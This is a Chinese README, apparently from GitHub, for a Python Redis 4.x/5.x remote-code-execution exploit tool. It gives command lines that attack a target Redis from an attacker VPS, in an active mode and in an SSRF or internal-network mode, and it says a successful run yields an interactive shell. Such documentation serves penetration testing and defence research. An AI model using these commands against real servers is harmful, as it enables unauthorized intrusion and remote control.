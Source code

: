 ## Redis-Rogue-Server <https://github.com/Dliv3/redis-rogue-server>
<!--auto_detail_badge_begin_0b490ffb61b26b45de3ea5d7dd8a582e-->
![Language](https://img.shields.io/badge/Language-Python-blue)
![Author](https://img.shields.io/badge/Author-Dliv3-orange)
![GitHub stars](https://img.shields.io/github/stars/Dliv3/redis-rogue-server.svg?style=flat&logo=github)
![Version](https://img.shields.io/badge/Version-V1.0.0-red)
![Time](https://img.shields.io/badge/Join-20201120-green)
<!--auto_detail_badge_end_fef74f2d7ea73fcc43ff78e05b1e7451-->


Redis 4.x/Redis 5.x RCE利用脚本, 涉及技术点可参考 [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

经测试Redis 5.0.8也可以使用，没有出现ppt上写的5.0无法set/get config的情况.

## Usage

编译.so模块, 代码: <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

将.so与 `redis-rogue-server.py`放置在同一目录下

项目自带了一个编译好的的exp.so文件, 可直接使用

### 主动连接模式

适用于目标Redis服务处于外网的情况
- 外网Redis未授权访问
- 已知外网Redis口令

启动redis rogue server，并主动连接目标redis服务发起攻击

```bash
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

参数说明：
- `--rpasswd` 如果目标Redis服务开启了认证功能，可以通过该选项指定密码
- `--rhost` 目标redis服务IP
- `--rport` 目标redis服务端口，默认为6379
- `--lhost` vps的外网IP地址
- `--lport` vps监控的端口，默认为21000

攻击成功之后，你会得到一个交互式shell

### 被动连接模式

适用于目标Redis服务处于内网的情况
- 通过SSRF攻击Redis
- 内网Redis未授权访问/已知Redis口令, Redis需要反向连接redis rogue server

这种情况下可以使用`--server-only`选项

```bash
python3 redis-rogue-server.py --server-only
```

参数说明：
- `--server-only` 仅启动redis rogue server, 接受目标redis的连接，不主动发起连接

## Copyright

本项目为[n0b0dyCN](https://github.com/n0b0dyCN)同名项目的fork, 在原项目代码基础之上修复了一些bug, 添加了一些新功能, 并针对不同漏洞利用场景做了一些优化。

因原作者删掉了原始repo, 所以直接挂到了我下面。

本项目版权归[Dliv3](https://github.com/Dliv3)和[n0b0dyCN](https://github.com/n0b0dyCN)所有。

<!--auto_detail_active_begin_e1c6fb434b6f0baf6912c7a1934f772b-->
## 项目相关


## 最近更新

<!--auto_detail_active_end_f9cf7911015e9913b7e691a7a5878527-->
